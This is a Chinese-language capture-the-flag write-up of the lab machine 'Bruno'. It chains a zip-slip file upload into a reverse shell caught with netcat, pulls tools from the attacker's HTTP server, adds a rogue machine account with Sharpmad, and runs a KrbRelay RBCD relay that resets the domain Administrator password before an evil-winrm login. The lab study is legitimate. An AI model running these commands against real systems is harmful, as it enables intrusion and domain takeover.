[★]$ netexec rdp brunodc.bruno.vl -u svc_scan -p Sunshine1
RDP         10.129.8.171    3389   BRUNODC          [*] Windows 10 or Windows Server 2016 Build 20348 (name:BRUNODC) (domain:bruno.vl) (nla:True)
RDP         10.129.8.171    3389   BRUNODC          [+] bruno.vl\svc_scan:Sunshine1
```
#### RDP 的“成功”表示凭据正确，但该用户无法连接（如果可以连接，则会显示“已入侵”[“pwned”]）
### Shell as svc_scan
```
[★]$ netexec smb brunodc.bruno.vl -u svc_scan -p Sunshine1 --shares
SMB         10.129.8.171    445    BRUNODC          [*] Windows Server 2022 Build 20348 x64 (name:BRUNODC) (domain:bruno.vl) (signing:True) (SMBv1:False)
SMB         10.129.8.171    445    BRUNODC          [+] bruno.vl\svc_scan:Sunshine1
SMB         10.129.8.171    445    BRUNODC          [*] Enumerated shares
SMB         10.129.8.171    445    BRUNODC          Share           Permissions     Remark
SMB         10.129.8.171    445    BRUNODC          -----           -----------     ------
SMB         10.129.8.171    445    BRUNODC          ADMIN$                          Remote Admin
SMB         10.129.8.171    445    BRUNODC          C$                              Default share
SMB         10.129.8.171    445    BRUNODC          CertEnroll      READ            Active Directory Certificate Services share
SMB         10.129.8.171    445    BRUNODC          IPC$            READ            Remote IPC
SMB         10.129.8.171    445    BRUNODC          NETLOGON        READ            Logon server share
SMB         10.129.8.171    445    BRUNODC          queue           READ,WRITE  
SMB         10.129.8.171    445    BRUNODC          SYSVOL          READ            Logon server share
```
#### queue的share为空
```
[★]$ smbclient //brunodc.bruno.vl/queue -U 'svc_scan%Sunshine1'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Mar 16 01:59:12 2026
  ..                                  D        0  Wed Jun 29 08:41:03 2022

		4980479 blocks of size 4096. 578451 blocks available
smb: \> put  slip-shell.zip
putting file slip-shell.zip as \slip-shell.zip (4.8 kb/s) (average 4.8 kb/s)
smb: \> 
```
#### 查看
```
[★]$ ftp bruno.vl
Connected to brunodc.bruno.vl.
220 Microsoft FTP Service
Name (bruno.vl:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> cd app
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||52816|)
125 Data connection already open; Transfer starting.
06-29-22  05:42PM                  165 changelog
03-16-26  02:08AM                 9216 hostfxr.dll
06-28-22  07:15PM                  431 SampleScanner.deps.json
06-29-22  03:58PM                 7168 SampleScanner.dll
06-29-22  03:58PM               174592 SampleScanner.exe
06-28-22  07:15PM                  170 SampleScanner.runtimeconfig.dev.json
06-28-22  07:15PM                  154 SampleScanner.runtimeconfig.json
226 Transfer complete.
ftp> 
```
#### 1分钟后收到侦听
```
[★]$ sudo nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.129.8.171] 52820
Microsoft Windows [Version 10.0.20348.768]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
bruno\svc_scan

C:\Windows\system32>type ..\..\Users\svc_scan\Desktop\user.txt
C:\Windows\system32>powershell
powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\system32> //查看已有用户和未登录用户
PS C:\Users> ls
ls


    Directory: C:\Users


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d-----         10/4/2024   9:28 PM                Administrator                                                        
d-r---         9/15/2021   3:12 PM                Public                                                               
d-----         10/4/2024   9:28 PM                svc_scan                                                             


PS C:\Users> net user
net user

User accounts for \\BRUNODC

-------------------------------------------------------------------------------
Administrator            Charles.Young            Chloe.Ball               
Donna.Harrison           Graeme.Grant             Guest                    
Hugh.Young               Jeremy.Singh             Kayleigh.Patel           
Kieran.Day               krbtgt                   Natalie.Anderson         
Sam.Owen                 svc_net                  svc_scan                 
The command completed successfully.

```
### Kerberos Relay(中继)
```
PS C:\Users> whoami /all
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```
#### 我们可以看到我们拥有“SeMachineAccountPrivilege”权限，但该权限似乎已被禁用。无需过多涉及技术细节，这并不意味着我们无法将计算机添加到域中——该权限看似已禁用，可能是因为我们收到的反向 shell 的会话/令牌存在限制所致。我们拥有此权限这一事实表明，我们的用户或组在组策略中已被定义为允许将计算机添加到域中的。如果不是这种情况，该权限就不会出现。
#### 所以不管它禁止或禁止，它SeMachineAccountPrivilege 出现了就是允许...
#### 现在，我们将列出我们的用户能够添加到域中的计算机数量。我们可以通过查询“MachineAccountQuota”属性来实现这一操作。
https://learn.microsoft.com/en-us/windows/win32/adschema/a-ms-ds-machineaccountquota
#### -M maq 是 MachineAccountQuota 模块
```
[★]$ netexec ldap brunodc.bruno.vl -u "svc_scan" -p "Sunshine1" -M maq
SMB         10.129.8.171    445    BRUNODC          [*] Windows Server 2022 Build 20348 x64 (name:BRUNODC) (domain:bruno.vl) (signing:True) (SMBv1:False)
LDAP        10.129.8.171    389    BRUNODC          [+] bruno.vl\svc_scan:Sunshine1
MAQ         10.129.8.171    389    BRUNODC          [*] Getting the MachineAccountQuota
MAQ         10.129.8.171    389    BRUNODC          MachineAccountQuota: 10 //普通域用户最多可以创建 10 台计算机账户
```
#### SeMachineAccountPrivilege 是一个本地权限，目前我们尚未启用该权限。我们可以通过直接向域控制器发送请求（例如使用 LDAP）来消除启用该权限的需求。我们将使用 Sharpmad 来简化这一过程。
https://github.com/Kevin-Robertson/Sharpmad/tree/main
```
[★]$ git clone https://github.com/Kevin-Robertson/Sharpmad.git //Sharpmad.csproj
[★]$ git clone https://github.com/cube0x0/KrbRelay.git //CheckPort.exe  && KrbRelay.exe  这个需要在Pwnbox上的目标windows机器编译不了，需要在本机生成.exe再上传
[★]$ wget https://raw.githubusercontent.com/ohpe/juicy-potato/refs/heads/master/CLSID/GetCLSID.ps1 


[~/Sharpmad][★]$ ls Sharpmad/
ADIDNS.cs  App.config  MAQ.cs  Program.cs  Properties  Sharpmad.csproj  Util.cs
[~/Sharpmad][★]$ zip -r sharpmad.zip Sharpmad
[~/Sharpmad][★]$ ls
LICENSE  README.md  Sharpmad  Sharpmad.sln  sharpmad.zip

[~/Sharpmad][★]$ python3 -m http.server 8011
Serving HTTP on 0.0.0.0 port 8011 (http://0.0.0.0:8011/) ...

```
#### 要上传3个：Sharpmad.zip CheckPort.zip GetCLSID.ps1
```
PS C:\ProgramData> powershell wget http://10.10.14.27:8011/Sharpmad.zip -o Sharpmad.zip

PS C:\ProgramData> powershell wget http://10.10.14.27:8011/GetCLSID.ps1 -o GetCLSID.ps1

PS C:\programdata> Expand-Archive sharpmad.zip //解压

PS C:\programdata> ls C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe //生成.exe的默认路径
```

<details>

<summary>ls</summary>

```
ls C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe


    Directory: C:\Windows\Microsoft.NET\Framework64\v4.0.30319


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----          5/8/2021   8:15 AM         258344 MSBuild.exe                                                          

```

</details>

```
PS C:\programdata> cp C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe .

PS C:\programdata> ls sharpmad/sharpmad/Sharpmad.csproj //可以不需要.sln,直接使用.csproj生成.exe
```

<details>

<summary>ls</summary>

```
ls sharpmad/sharpmad/Sharpmad.csproj


    Directory: C:\programdata\sharpmad\sharpmad


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----         3/16/2026   2:50 AM           2566 Sharpmad.csproj

```

</details>

```
PS C:\programdata> .\MSBuild.exe sharpmad/sharpmad/Sharpmad.csproj

PS C:\programdata> ls sharpmad/sharpmad/bin/Debug/Sharpmad.exe
```

<details>

<summary>ls</summary>
	
```
ls sharpmad/sharpmad/bin/Debug/Sharpmad.exe


    Directory: C:\programdata\sharpmad\sharpmad\bin\Debug


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----         3/16/2026   8:04 AM          53760 Sharpmad.exe
```

</details>

```
PS C:\programdata> cp sharpmad/sharpmad/bin/Debug/Sharpmad.exe .

PS C:\ProgramData> .\MSBuild.exe CheckPort/CheckPort/CheckPort.csproj //环境不行，换win11编译
PS C:\ProgramData> powershell wget http://10.10.14.27:8011/CheckPort.exe -o CheckPort.exe
PS C:\ProgramData> powershell wget http://10.10.14.27:8011/KrbRelay.exe -o KrbRelay.exe
```
#### 1).添加了计算机账户 roguecomputer 
```
PS C:\programdata> ./Sharpmad.exe MAQ -Action new -MachineAccount roguecomputer -MachinePassword xiaohei
./Sharpmad.exe MAQ -Action new -MachineAccount roguecomputer -MachinePassword xiaohei
[+] Machine account roguecomputer added
```
#### 既然我们已经拥有了一个由我们掌控的机器账户，那么我们也知道存在一个服务主体，它具有一个服务凭据标识符（SPN）。这使我们能够实施基于 RBCD 的攻击，因为我们拥有一个我们能够掌控的服务主体，它能够执行 S4U 和 S4U2Proxy 请求。
#### 现在我们可以尝试通过实施一种经典的本地权限提升攻击来实现这一目标，即进行 Kerberos 中继攻击。作为在这一篇简短的帖子中有所说明：
https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9
```
PS C:\ProgramData> ./CheckPort.exe
./CheckPort.exe
[*] Looking for available ports..
[*] SYSTEM Is allowed through port 10246

PS C:\ProgramData> [System.Security.Principal.SecurityIdentifier]::new((([ADSI]"LDAP://CN=roguecomputer,CN=Computers,DC=bruno,DC=vl").objectSID).Value,0).Value

S-1-5-21-1536375944-4286418366-3447278137-5101

```
#### 使用GetCLSID.ps1 找clsid
```
PS C:\ProgramData> ./GetCLSID.ps1
./GetCLSID.ps1

Name           Used (GB)     Free (GB) Provider      Root                                               CurrentLocation
----           ---------     --------- --------      ----                                               ---------------
HKCR                                   Registry      HKEY_CLASSES_ROOT                                                 
Looking for CLSIDs
Looking for APIDs
Joining CLSIDs and APIDs

PSPath            : Microsoft.PowerShell.Core\FileSystem::C:\ProgramData\Windows_Server_2022_Datacenter
PSParentPath      : Microsoft.PowerShell.Core\FileSystem::C:\ProgramData
PSChildName       : Windows_Server_2022_Datacenter
PSDrive           : C
PSProvider        : Microsoft.PowerShell.Core\FileSystem
PSIsContainer     : True
Name              : Windows_Server_2022_Datacenter
FullName          : C:\ProgramData\Windows_Server_2022_Datacenter
Parent            : ProgramData
Exists            : True
Root              : C:\
Extension         : 
CreationTime      : 3/17/2026 6:06:33 AM
CreationTimeUtc   : 3/17/2026 6:06:33 AM
LastAccessTime    : 3/17/2026 6:06:33 AM
LastAccessTimeUtc : 3/17/2026 6:06:33 AM
LastWriteTime     : 3/17/2026 6:06:33 AM
LastWriteTimeUtc  : 3/17/2026 6:06:33 AM
Attributes        : Directory, NotContentIndexed
Mode              : d-----
BaseName          : Windows_Server_2022_Datacenter
Target            : {}
LinkType          : 


PS C:\ProgramData> ls                                                                                
d-----         3/17/2026   6:06 AM                Windows_Server_2022_Datacenter
PS C:\ProgramData> ls Windows_Server_2022_Datacenter
Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----         3/17/2026   6:06 AM           3200 CLSID.list                                                           
-a----         3/17/2026   6:06 AM           7697 CLSIDs.csv

PS C:\ProgramData> cat Windows_server_2022_Datacenter\\CLSIDs.csv
cat Windows_server_2022_Datacenter\\CLSIDs.csv
"AppId","LocalService","CLSID"
"{4A0F9AA8-A71E-4CC3-891B-76CAC67E67C0}","ALG","{D6015EC3-FA16-4813-9CA1-DA204574F5DA}"
"{88283d7c-46f4-47d5-8fc2-db0b5cf0cb54}","AppReadiness","{c980e4c2-c178-4572-935d-a8a429884806}"
"{8D315960-32C4-4235-8369-901DF222816F}","AppVClient","{F01D6448-0959-4E38-B6F6-B6643D4558FE}"
</SNIP>很多
```
#### 0xdf 会让 Claude 帮他写一些 PowerShell 脚本，逐行测试并查找正在运行的服务，以及我可以激活的服务：
```
PS C:\ProgramData> Import-Csv Windows_Server_2022_Datacenter\CLSIDs.csv | ForEach-Object { $entry = $_; try { $svc = Get-Service $entry.LocalService -ErrorAction Stop; if ($svc.Status -eq "Running") { try { [System.Activator]::CreateInstance([Type]::GetTypeFromCLSID($entry.CLSID.Trim("{}")))|Out-Null; "$($entry.LocalService) | $($entry.CLSID) | Activate OK" } catch { if ($_.Exception.Message -match "80070005") { $r = "Access Denied" } elseif ($_.Exception.Message -match "80040111") { $r = "Class Not Available" } elseif ($_.Exception.Message -match "80070422") { $r = "Service Disabled" } else { $r = "Failed" }; "$($entry.LocalService) | $($entry.CLSID) | $r" } } } catch {} }

CertSvc | {D99E6E73-FC88-11D0-B498-00A0C90312F3} | Activate OK
UsoSvc | {84C80796-F07C-4340-8897-DA954AADBF16} | Class Not Av
vds | {7D1933CB-86F6-4A98-8628-01BE94C9A575} | Access Denied
```
#### 它找到了三个，但只有CertSvc我可以激活
```
PS C:\ProgramData> ./KrbRelay.exe -spn ldap/brunodc.bruno.vl -clsid d99e6e74-fc88-11d0-b498-00a0c90312f3 -rbcd S-1-5-21-1536375944-4286418366-3447278137-5101 -ssl -port 10246 -reset-password administrator Lacure77#
./KrbRelay.exe -spn ldap/brunodc.bruno.vl -clsid d99e6e74-fc88-11d0-b498-00a0c90312f3 -rbcd S-1-5-21-1536375944-4286418366-3447278137-5101 -ssl -port 10246 -reset-password administrator Lacure77#
[*] Relaying context: bruno.vl\BRUNODC$
[*] Rewriting function table
[*] Rewriting PEB
[*] GetModuleFileName: System
[*] Init com server
[*] GetModuleFileName: C:\ProgramData\KrbRelay.exe
[*] Register com server
```
#### 现在我们可以通过 WinRM 以管理员身份登录系统并获取 root 标志
```
[★]$ evil-winrm -i brunodc.bruno.vl -u 'administrator' -p 'Lacure77#'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
bruno\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ../Desktop/root.txt
```
### 整个过程结合官方文档和0xdf的方案。
----------------------------
### 试错
```
//用 Microsoft .NET 运行时 去启动一个 .NET 程序
C:\Users\11xiaohei\Downloads\changelog>dotnet SampleScanner.exe

C:\Users\11xiaohei\Downloads\changelog>echo %PROCESSOR_ARCHITECTURE%
ARM64

//直接用 安装脚本，可惜了这里安装的是我环境ARM64的dotnet,不是靶机需要的x64的dotnet
PS C:\Users\11xiaohei> Invoke-WebRequest https://dot.net/v1/dotnet-install.ps1 -OutFile dotnet-install.ps1
PS C:\Users\11xiaohei> Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass
PS C:\Users\11xiaohei> .\dotnet-install.ps1 -Runtime dotnet -Version 3.1.32 -Architecture arm64

PS C:\Users\11xiaohei> dotnet --list-runtimes
Microsoft.AspNetCore.App 8.0.19 [C:\Program Files\dotnet\shared\Microsoft.AspNetCore.App]
Microsoft.AspNetCore.App 9.0.8 [C:\Program Files\dotnet\shared\Microsoft.AspNetCore.App]
Microsoft.NETCore.App 3.1.32 [C:\Users\11xiaohei\AppData\Local\Microsoft\dotnet\shared\Microsoft.NETCore.App]
```
#### 考 .NET 程序分析能力，而不是让你实际运行；
#### dnSpy | ILSpy
https://github.com/icsharpcode/ILSpy
```
// This file does not contain a managed assembly.
System.BadImageFormatException: Invalid PE signature.
   at ICSharpCode.ILSpyX.LoadedAssembly.LoadAsync(Task`1 streamTask) in /_/ICSharpCode.ILSpyX/LoadedAssembly.cs:line 387
   at ICSharpCode.ILSpy.TreeNodes.AssemblyTreeNode.Decompile(Language language, ITextOutput output, DecompilationOptions options)

PS C:\Users\11xiaohei> Get-Content C:\Users\11xiaohei\Downloads\changelog\SampleScanner.dll -Encoding Byte -TotalCount 2
77
90
```
  ------------------
### 解析
#### 首先生成一个包含 EICAR 测试文件字符串的字节数组，然后该库会继续从 C:\samples\queue 目录中检索文件。接下来，它会遍历检索到的文件名，如果这些文件以.zip 扩展名结尾，则将归档文件的内容提取到 C:\samples\queue 目录下，然后删除原始文件（即归档文件）。最后，对于从归档文件中提取出来的每个文件，它会将其与 EICAR 测试字符串进行比较。如果EICAR 模式存在于所获取文件的字节表示形式中，这会将该文件移动至恶意文件区域。文件夹。如果不是这样，它就会将该文件移动到“良性”文件夹中。
https://en.wikipedia.org/wiki/EICAR_test_file
```
EICAR 测试字符串[ 9 ]读作[ 10 ]

X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*
第三个字符是拉丁字母大写字母“O” ，而不是数字零
```
#### 由于研究这段代码中漏洞的唯一可行选项是 ZipArchive 类，我们将在网上搜索 C# 中的 ZipArchive 漏洞。
https://www.meziantou.net/prevent-zip-slip-in-dotnet.htm
#### 防止 .NET 中的 Zip 滑移,文件路径可以是任意的
#### 在搜索结果中，我们可以找到这篇文章，它解释了使用 Path.Combine 将文件提取到文件而不是使用 ExtractToDirectory 是危险的。本质上，Path.Combine 将各个字符串连接成一个表示文件路径的单个字符串。但是，正如微软文档中所述，如果除第一个参数外的任何参数包含根路径，则任何先前的路径组件都将被忽略。这意味着，如果压缩文件中的文件包含像 C:\Users\rogue\any.txt 这样的路径，那么与压缩文件名组合的 C:\samples\queue 路径将被忽略，文件将被提取到 C:\Users\rogue\any.txt 

### 应用程序用于构建归档内容提取路径的方法名称是什么？ Path.Combine
```
string destinationFileName = Path.Combine("C:\\samples\\queue\\", entry.FullName);
```
#### 关于 .NET 9 的 Path.Combine方法
https://learn.microsoft.com/en-us/dotnet/api/system.io.path.combine?view=net-9.0
```
C#

合并(ReadOnlySpan<String>)
将一段字符串合并成一个路径。
public static string Combine(scoped ReadOnlySpan<string> paths);

合并(字符串[])
将字符串数组组合成一个路径。
public static string Combine(params string[] paths);

以下示例将字符串数组组合成一个路径
string[] paths = {@"d:\archives", "2001", "media", "images"};
string fullPath = Path.Combine(paths);
Console.WriteLine(fullPath);
```
